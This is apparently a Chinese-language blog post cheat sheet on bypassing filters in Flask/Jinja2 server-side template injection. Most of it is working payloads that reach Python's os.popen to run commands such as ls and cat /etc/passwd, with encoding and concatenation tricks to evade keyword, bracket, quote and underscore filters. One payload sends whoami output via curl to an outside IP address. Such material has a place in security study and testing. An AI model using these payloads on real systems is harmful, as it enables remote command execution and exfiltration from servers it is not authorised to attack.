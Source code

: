 ```yaml
---
layout: post
title: flask-ssti注入绕过
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


在python沙盒逃逸中绕过道理是一样的。  

1.python沙盒中**删除了很多模块**，但是没有删除reload  

>     reload(__builtins__)，重新加载被删除的模块，直接命令执行，只用于py2  

2.直接过滤了**敏感字符**，如eval，os等。  

 
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")}}
>     2.1 base64
>      
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))}} (可以看出单双引号内的都可以编码) 
>     
>     2.2 rot13  
>     
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['riny'.decode('rot13')]("__import__('os').popen('ls').read()")}}  
>     2.3 16进制编码  
>     
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['6576616C'.decode('hex')]("__import__('os').popen('ls').read()")}}   
>     2.4  拼接字符串(base64，hex，rot13也可以进行拼接)
>     
>     过滤了(ls.import.eval.os)   
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['e'+'val']("__im"+"port__('o'+'s').popen('l'+'s').read()")}}  

3.过滤了**中括号[]**  
>     3.1 getitem() 用来获取序号
>     
>     "".__class__.__mro__[2]
>     "".__class__.__mro__.__getitem__(2)
>     
>     3.2 fangfa['shuxing']-->fangfa.shuxing，类似于字典  
>     
>     {{''.__class__.__mro__[2].__subclasses__().__getitem__(59).__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat /etc/passwd').read()")}}  
>     {{''.__class__.__mro__[2].__subclasses__().__getitem__(59).__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /etc/passwd').read()")}}（不能直接进入python环境下用，可能是python程序运行的时候会自己加载什么东西。） 

4.过滤了引号**'** **"**  

>     4.1 利用request传值，漏洞形式必须是?name=这种形式的或者说是提交表单用post方式。(这种方法在沙盒逃逸中行不通的，只有web接收参数形式有可能)
>       
>     {{[].__class__.__mro__[1].__subclasses__()[40](request.args.cat).read()}}&cat=/etc/passwd(类似于过滤了下划线)   
>     
>     4.2 chr传值  
>     
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")}}
>     {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{''.__class__.__mro__[2].__subclasses__().__getitem__(59).__init__.__globals__.__builtins__. eval( chr(95) %2b chr(95) %2b chr(105) %2b chr(109) %2b chr(112) %2b chr(111) %2b chr(114) %2b chr(116) %2b chr(95) %2b chr(95) %2b chr(40) %2b chr(39) %2b chr(111) %2b chr(115) %2b chr(39) %2b chr(41) %2b chr(46) %2b chr(112) %2b chr(111) %2b chr(112) %2b chr(101) %2b chr(110) %2b chr(40) %2b chr(39) %2b chr(108) %2b chr(115) %2b chr(39) %2b chr(41) %2b chr(46) %2b chr(114) %2b chr(101) %2b chr(97) %2b chr(100) %2b chr(40) %2b chr(41))}}
>     ['eval']这里可以直接用.eval()代替，eval里面的执行的语句，把它全部变为chr()+chr()的形式，最后不要忘记给+编码为%2b
>     经过实验我发现只能是里面的执行的语句变为chr()形式，像eval这种不可以。  

5.过滤**双下划线__**  
>     利用request传值  
>     
>     5.1{{()[request.args.class].__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")}}&class=__class__  

>     5.2将其中的request.args改为request.values则利用post的方式进行传参

>     GET:{{()[request.args.class].__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")}}
>     结合下边的post方式一起
>     POST:class=__class___  

6.删除掉了built下边的很多函数，不能命令执行。  

>     os, eval, import,，一种是自己现引入(__import__('os'.popen('ls').read()))，另一种是其他的模块直接能够调用os    
>     6.1 <class 'site._Printer'> [71](可以直接调用os模块)  
>     {{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}    
>     6.2  <class 'warnings.catch_warnings'>[59]   
>     open,eval,file,__import__,reload（并没有os.需要用eval配合__import__导入）
>     {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")}}
    
7.过滤{{  

>     {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://39.105.116.195:8080/?i=`whoami`').read()=='p' %}1{% endif %}

8.补充一种姿势  
>     {{().__class__.__base__.__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['popen']('l'+'s').read()}}